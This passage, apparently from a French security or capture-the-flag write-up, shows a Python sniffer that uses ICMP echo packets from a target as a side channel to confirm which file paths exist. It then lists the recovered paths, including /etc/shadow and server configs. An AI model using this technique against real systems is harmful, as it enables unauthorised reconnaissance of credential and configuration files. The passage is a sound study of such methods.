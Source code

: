 Le path du fichier en cours de vérification est placé dans le fichier local */tmp/current\_path*. Un système de lock empèche le second script de se prendre les pieds avec celui-ci.  

Le second script est un sniffer en Python qui utilise la librairie *Pcapy* pour sniffer et *Impacket* pour décoder les trames réseau :  

```python
import pcapy
from impacket import ImpactDecoder, ImpactPacket
import fcntl

sniff = pcapy.open_live("eth0", 65536, 1, 0)
decoder = ImpactDecoder.EthDecoder()

while True:
    (header, packet) = sniff.next()
    ethernet = decoder.decode(packet)

    if ethernet.get_ether_type() == ImpactPacket.ARP.ethertype: # ARP
        continue
    elif ethernet.get_ether_type() == ImpactPacket.IP.ethertype: # ARP
        ip = ethernet.child()
        if ip.get_ip_p() == ImpactPacket.UDP.protocol:
            continue
        if ip.get_ip_p() == ImpactPacket.TCP.protocol:
            continue
        if ip.get_ip_p() == ImpactPacket.ICMP.protocol:
            icmp = ip.child()
            if icmp.get_icmp_type() == ImpactPacket.ICMP.ICMP_ECHO:
                if ip.get_ip_src() == "192.168.1.21" and ip.get_ip_dst() == "192.168.1.3":
                    fd = open("/tmp/current_path", "r")
                    fcntl.flock(fd.fileno(), fcntl.LOCK_EX)
                    buff = fd.read(1024)
                    fcntl.flock(fd.fileno(), fcntl.LOCK_UN)
                    fd.close()
                    print buff
```

J'ai ainsi récupérer la liste de fichiers suivants pour /etc :  

```plain
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/nginx/nginx.conf
/etc/php.ini
```

Pour /bin :  

```plain
/bin/ls
/bin/touch
/bin/uname
/bin/ping
/bin/bash
/bin/mkdir
/bin/su
/bin/echo
/bin/sh
```
